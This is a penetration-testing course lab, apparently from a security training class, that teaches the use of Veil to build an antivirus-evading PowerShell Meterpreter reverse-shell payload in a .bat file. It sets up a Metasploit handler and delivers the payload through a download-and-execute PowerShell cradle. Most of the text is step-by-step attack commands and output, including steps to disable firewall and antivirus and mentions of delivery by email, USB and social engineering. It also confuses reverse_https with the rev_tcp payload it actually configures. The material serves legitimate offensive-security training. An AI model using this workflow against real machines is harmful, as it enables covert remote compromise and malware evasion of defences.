

Lab 3.3: Veil
Objectives
- Using Veil to explore its feature set
- Learning how to use Veil to build payloads that can evade various antivirus tools
In the lab, you’ll run Veil and configure it to create a Metasploit-compatible payload in a Windows .bat file. When this .bat file runs, it launches Windows PowerShell to build a Meterpreter stager with the reverse_https stager in the memory of the target machine where it runs. Because the Meterpreter gets loaded into memory by PowerShell from an encoded source in the .bat file, it is less likely to be detected by antivirus tools.
It is important to note that not every Veil payload dodges every antivirus tool. It is a hit-and-miss situation, which is constantly changing as the antivirus vendors adapt their tools to detect different attacks. We use Meterpreter with the reverse_https stager loaded into memory as an example here to build our skills. When penetration testing, you rely on Veil in the same way by building different payloads and testing each one in the lab against the antivirus tool used by the target environment until you find a payload that evades it.
In addition to creating the malicious payload, Veil also creates a Metasploit configuration file, which has an .rc suffix. This file automatically prepares Metasploit with multi/handler, which receives an inbound connection when the payload executes on a target machine.
Later in the lab, you run and configure Metasploit with this .rc file. Once the multit/handler is set up to listen, you can run the malicious payload on your Windows machine and watch as it connects back to your Linux VM, where Metasploit awaits it.
Lab Setup
To conduct this lab, you need to switch your virtual machine environment to use bridged networking.
- In VMware's network configuration, click the radio button marked "Bridged".

- Make sure your Windows and Linux machines can ping each other:
$ ping YOUR_WINDOWS_IP_ADDRESS
C:\> ping YOUR_LINUX_IP_ADDRESS
If you can ping each successfully using bridged networking, you are ready to begin.
If you cannot ping Windows, it is possible Windows Firewall is blocking the traffic. Disable Windows Firewall by running (at an elevated command prompt):
C:\> netsh advfirewall set allprofiles state off
Lab – Step-by-Step Instructions
1. Launching Veil
Let's start by running Veil. We've created a script for you that will cd into the correct directory and execute Veil.py. To launch Veil, execute the command below:
$ sudo veil
When it launches, it will display its version number, the number of payloads it knows how to generate, and a list of available commands.
Inside Veil, you can run the list command to get a list of all the different payloads that the tool can generate.
Let's focus on the Evasion tool for now:
Veil >: use Evasion
Your output should look similar to this:
sec560@slingshot:~$ veil
===============================================================================
Veil | [Version]: 3.1.12
===============================================================================
[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================
Main Menu
2 tools loaded
Available Tools:
1) Evasion
2) Ordnance
Available Commands:
exit Completely exit Veil
info Information on a specific tool
list List available tools
options Show Veil configuration
update Update Veil
use Use a specific tool
Veil>: use Evasion
Now let’s get a list of the various payloads that Veil can generate.
Veil/Evasion >: list
Your output should resemble this:
Veil/Evasion>: list
===============================================================================
Veil-Evasion
===============================================================================
[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================
[*] Available Payloads:
1) autoit/shellcode_inject/flat.py
2) auxiliary/coldwar_wrapper.py
3) auxiliary/macro_converter.py
4) auxiliary/pyinstaller_wrapper.py
5) c/meterpreter/rev_http.py
6) c/meterpreter/rev_http_service.py
7) c/meterpreter/rev_tcp.py
8) c/meterpreter/rev_tcp_service.py
... truncated for brevity ...
In the list, you first see a couple of auxiliary modules provided by Veil: auxiliary/coldwar_wrapper and auxiliary/pyinstaller_wrapper. The coldwar_wrapper module takes a Windows EXE file and converts it to a Web Archive (WAR) file for execution in a Java Runtime environment. The pyinstaller_wrapper takes a Python program and converts it to a Windows executable using the pyinstaller application. Each of those techniques can help evade some antivirus tools.
Next, we have groupings of payloads based on the programming language used to generate the payload. In the list, you see c, cs (which is for C#, also known as "C Sharp"), go, lua, powershell, python, ruby, etc. You can see more details about the given payload, often including a stage (such as meterpreter or shellcode_inject) and a stager (such as rev_tcps). Veil can use each of these languages to build a payload that may dodge various antivirus tools.
In the list, note item number 22: powershell/meterpreter/rev_tcp. Let’s get more information about that payload.
To get more information about any of the payloads included in Veil, use the info command. Let's try that by getting more information about the powershell/meterpreter/rev_tcp payload:
Veil/Evasion>: info powershell/meterpreter/rev_tcp.py
Results:
Veil/Evasion>: info powershell/meterpreter/rev_tcp.py Payload: powershell/meterpreter/rev_tcp selected Required Options: Name Value Description ---- ----- ----------- BADMACS FALSE Checks for known bad mac addresses DOMAIN X Optional: Required internal domain HOSTNAME X Optional: Required system hostname LHOST IP of the Metasploit handler LPORT 4444 Port of the Metasploit handler MINBROWSERS FALSE Minimum of 2 browsers MINPROCESSES X Minimum number of processes running MINRAM FALSE Require a minimum of 3 gigs of RAM PROCESSORS X Optional: Minimum number of processors SLEEP X Optional: Sleep "Y" seconds, check if accelerated USERNAME X Optional: The required user account USERPROMPT FALSE Window pops up prior to payload UTCCHECK FALSE Check that system isn't using UTC time zone VIRTUALPROC FALSE Check for known VM processes
Here you can see the various options available for this payload. Using these, Veil creates a PowerShell script, which is written into a Windows .bat file that launches PowerShell. The LHOST variable tells Veil where to connect back to for the reverse connection. This connection defaults to connecting back on to the local TCP port (LPORT) of 4444.
We used the info command to pull information about this one specific payload, but it could be used to analyze the details of any of the other payloads supported by Veil.
Next, we will use Veil to generate a powershell/meterpreter/reverse_tcp payload.
Step 2: Exploring Veil
Now let’s get a list of commands we have available. Hit Tab twice at the command prompt.
Veil/Evasion>: <Tab><Tab>
We can see that we have several commands, including the back command (which will take us back to the original context of Veil), the checkvt command (which will check whether any payloads you’ve generated are flagged by Virus Total), the clean command (which removes any previously created payloads), the exit command, the info command, the list command (to get a list of possible payloads), and, finally, the use command. We’ll select the payload we want to generate via the use command:
Veil/Evasion>: use powershell/meterpreter/rev_tcp.py
Note that Veil handily shows the configuration options for the module you selected along with available commands. The Veil interface was designed to walk you through, step by step, the creation of the malicious executable.
If you’d like to see that list of options again (or at any time hereafter), you can run the options command:
[powershell/meterpreter/rev_tcp>>]: options
The only option we MUST provide is the LHOST option, the machine where the generated payload connects back to. Please set that to your Linux IP address:
[powershell/meterpreter/rev_tcp>>]: set LHOST YOUR_LINUX_IP_ADDRESS
Note: Type the IP address of your Linux host instead of
YOUR_LINUX_IP_ADDRESS.
With our option set, we can now create the payload file with the generate command:
[powershell/meterpreter/rev_tcp>>]: generate
You’ll now be prompted for the base name to use for the payload and configuration file associated with it. Please enter the name: 560veil
[powershell/meterpreter/rev_tcp>>]: set LHOST YOUR_LINUX_IP_ADDRESS
[powershell/meterpreter/rev_tcp>>]: generate
===============================================================================
Veil-Evasion
===============================================================================
[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================
[>] Please enter the base name for output files (default is payload): 560veil
As Veil generates the payload, it shows the details of what it is creating, including the payload and the files it builds. Note specifically that it creates two files:
/var/lib/veil/output/source/560veil.bat<- The payload/var/lib/veil/output/handlers/560veil.rc<- This is the Metasploit configuration file (also known as a handler file) for amulti/handlerwaiting for a connection from our payload.
Now that you’ve generated your payload and handler files, press Enter and exit Veil:
Veil/Evasion>: exit
You should be returned to your underlying shell prompt.
Step 3: Examine the payload
Next, look at the 560veil.bat file that Veil generated by changing into its directory and running ls -l:
$ cd /var/lib/veil/output/source/ $ ls -l total 4 -rw-r--r-- 1 sec560 sec560 3023 Jun 5 22:23 560veil.bat
Here you can see that Veil created a 2287-byte Windows .bat file called 560veil.bat. Your file may be a byte or two larger or smaller, depending on your IP address. Now look at its contents:
$ cat 560veil.bat
If you look carefully in this file, you can see that it starts by turning off the echoing of commands on the screen (@echo off). It then checks the processor architecture to determine which version of PowerShell to invoke (the x86 version or the x64 version). When it runs PowerShell, it invokes it with the following options:
-NoP: This option is short for NoProfile, which prevents PowerShell from loading a profile of custom settings.
-NonI: This option prevents PowerShell from displaying an interactive prompt to the user on the screen.
-W Hidden: This option sets the window style for PowerShell to Hidden so that it won’t pop up a PowerShell console on the screen. Note that the .bat file that launches PowerShell displays a console, but PowerShell will not.
-Command: And, finally, we have the PowerShell command to be executed. This command will take Base64-encoded text of a stage and stager, load it into memory, and execute it. The remainder of the PowerShell command includes the functionality to achieve that goal.
In addition to creating the .bat file with the malicious PowerShell payload, Veil also created a handler file to configure Metasploit to wait for the inbound connection. Let’s look at that file:
$ cd /var/lib/veil/output/handlers $ ls -l total 4 -rw-r--r-- 1 root root 143 Jun 5 22:23 560veil.rc
Here we see a short file that is approximately 143 bytes in length (your file may be a byte or two larger because of the different LHOST IP address). Let’s look at its contents:
$ cat 560veil.rc
Results:
sec560@slingshot:~$ cd /var/lib/veil/output/handlers/ sec560@slingshot:/var/lib/veil/output/handlers$ ls -l total 4 -rw-r--r-- 1 sec560 sec560 145 Jul 1 17:43 560veil.rc sec560@slingshot:/var/lib/veil/output/handlers$ cat 560veil.rc use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.10.75.102 set LPORT 4444 set ExitOnSession false exploit -j
Your file will be the same, except your
LHOSTwill be different.
This Metasploit .rc file contains a series of commands to configure msfconsole, including:
- Selecting
multi/handleras an exploit. - Setting the payload to a Meterpreter stage and
reverse_tcpstager. - Setting LHOST to your Linux IP address.
- Setting LPORT to
4444(the default for that Veil payload). - Setting ExitOnSession to false. This option keeps
multi/handlerrunning even after a session has been created with it. That way, we can still get more sessions opened back to our msfconsole if the payload runs multiple times (perhaps on multiple targets). - Launching the exploit in a jobified fashion (
exploit -j) so that the multi/handler runs in the background, awaiting a connection.
Step 4: Launch Metasploit
Now we’ll launch Metasploit and have it read the .rc configuration file.
$ msfconsole -r /var/lib/veil/output/handlers/560veil.rc
Watch as Metasploit processes the .rc file. You can see it running each command in the file, configuring Metasploit step by step to run the multi/handler and preparing the appropriate payload and options.
When the .rc file has been processed, look at Metasploit’s backgrounded jobs:
msf5 > jobs
Now look at the settings:
msf5 > show options
Metasploit has been automatically configured with all the settings and is now awaiting connections from our malicious payload. We just need to get our Windows machine to run it.
We have many options for delivering our 560veil.bat malicious payload to a Windows machine. For this lab, we'll deliver the file via web download. Other options in a penetration test include email, USB thumb drive, and other social engineering vectors.
OPEN A NEW TERMINAL WINDOW!
In the new terminal Window, cd to the directory containing the payload, then launch the Python web server.
$ cd /var/lib/veil/output/source $ python -m http.server
In Windows, we use a download cradle to download and execute the .bat file. Launch PowerShell and type the following command:
PS C:\> powershell.exe -exec bypass -noprofile -windowstyle hidden -Command "IEX (New-Object Net.Webclient).downloadstring('http://YOUR_LINUX_IP_ADDRESS:8000/560veil.bat')"
Alternatively, open Edge (this will not work in Chrome) and browse to:
http://YOUR_LINX_IP_ADDRESS:8000
Click on the 560veil.bat file and save it.
Then click "Open folder".
Step 5: Launch the Payload
With the 560veil.bat file now on your Windows machine, run it. You should double-click it in Windows File Explorer. It may pop up a screen saying that "The publisher of this file could not be verified". Simply select Run.
And then double-click the file. You will be asked if you want to run the file. Click "Run".
While the file is running, you will likely see a window pop up and then disappear. On your Slingshot Linux system, look at the msfconsole screen. You should see an inbound connection from Windows. If you see a session coming in to msfconsole, press Enter on the msfconsole screen to get your msf prompt back.
If you do not see a session, there is a chance your antivirus tool did detect the malicious file. (In other words, your AV vendor created signatures that work for this specific payload in Veil.) Disable your antivirus tool and try to download and/or run it again.
When you get a session, you can look at the session details by running:
msf > sessions -l
That’s a dash lowercase L for "list", not a one.
You can interact with the session by running session -i followed by the session ID number:
msf > sessions -i N
Replace
Nwith your session ID number.
You can run getuid to determine your current user. (It should be the user who is logged in to your Windows GUI because that was how you executed the 560veil.bat file when you double-clicked it.)
meterpreter > getuid

You can experiment with this Meterpreter session, running the various commands we discussed during the earlier part of the class. When you finish with the Meterpreter, you can exit it by running:
meterpreter > exit
If you have extra time, look again at the 560veil.bat file on Windows.
On your Downloads directory, find 560veil.bat, right-click it, and select Edit with Notepad++.
By default, the long lines do not wrap. To wrap the long lines, click on View | Word wrap.
Look through this .bat file carefully. You can see the options we discussed earlier:
-NoP: This option is short for NoProfile, which prevents PowerShell from loading a profile of custom settings.
-NonI: This option prevents PowerShell from displaying an interactive prompt to the user on the screen.
-W Hidden: This option sets the window style for PowerShell to Hidden so that it won’t pop up a PowerShell console on the screen. Note that the .bat file that launches PowerShell displays a console, but PowerShell will not.
-Command: And, finally, we have the PowerShell command to be executed. This command will take Base64-encoded text of a stage and stager, load it into memory, and execute it. The remainder of the PowerShell command includes the functionality to achieve that goal.
If you have extra time, you can edit the 560veil.bat file. Start by removing the -W Hidden from it. (That string will be in two places: one for x86 and one for x64.) Please remove both of them and try to rerun it. You see that it creates a persistent console on the screen. You can remove the other PowerShell configuration options to see how each one impacts the payload.
Conclusion
In conclusion, in this lab we used Veil to select and configure a malicious payload as a .bat file that launches PowerShell and uses it to create in memory a Meterpreter stage with a reverse_https stager. These are handy options because most environments allow outbound HTTPS, and this stager even supports grabbing local proxy configurations from the target Windows machine and using them for its HTTPS connection.
The payload we created has properties that allow it to evade some antivirus tools. In addition to the payload we created, several dozen other payloads in Veil dodge various antivirus tools. As penetration testers, we would likely create payloads in the lab and experiment with each on a system configured with the target organization’s antivirus product until we found one that successfully evaded it.
Also, Veil created a Metasploit configuration file of commands to automatically set up Metasploit to await inbound connections from a victim machine that runs our malicious payload.
These techniques are useful in penetration testing because they provide a wealth of options for gaining successful code execution on a target environment.